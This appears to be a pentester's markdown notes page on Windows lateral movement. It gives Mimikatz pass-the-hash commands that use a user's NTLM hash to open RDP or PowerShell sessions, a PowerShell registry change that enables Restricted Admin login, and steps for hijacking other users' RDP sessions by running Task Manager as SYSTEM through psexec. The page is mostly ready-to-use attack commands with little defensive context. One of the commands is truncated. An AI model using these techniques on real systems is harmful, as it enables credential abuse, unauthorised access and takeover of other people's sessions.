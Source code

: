 ```yaml
---
title: "Miscellaneous"
date: 2020-07-17T20:59:33+02:00
draft: false
---
```


#### Using PowerView to enumerate Shares, Admin access and more (ToDo)
https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

#### Pass The Hash to mstsc.exe using Mimikatz

```sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"```

This will open a new RDP window. If it still shows the user you are currently logged on with, just ignore it - everything will just work.

A registry key controls if a server accepts Restricted Admin sessions. If you have the NTLM hash of a user that has privileges to set registry keys, you can use for example Powershell to enable it and log in via RDP afterwards:

```mimikatz.exe "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"```

A new Powershell window will pop up:

```powershell
Enter-PSSession -Computer <Target>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWO
```

#### Connect to other users on the system that have a active RDP session
When you're on a system (as local admin) where other users are connected through RDP it is possible to hijack their session.
Launch taskmgr.exe under SYSTEM, e.g. using psexe:

```psexec.exe -sid taskmgr.exe```

Verify taskmgr is running under system, then navigate to the 'users' tab, right click on the user you want to take over and click 'connect'.

#### References
https://edermi.github.io/post/2018/native_rdp_pass_the_hash/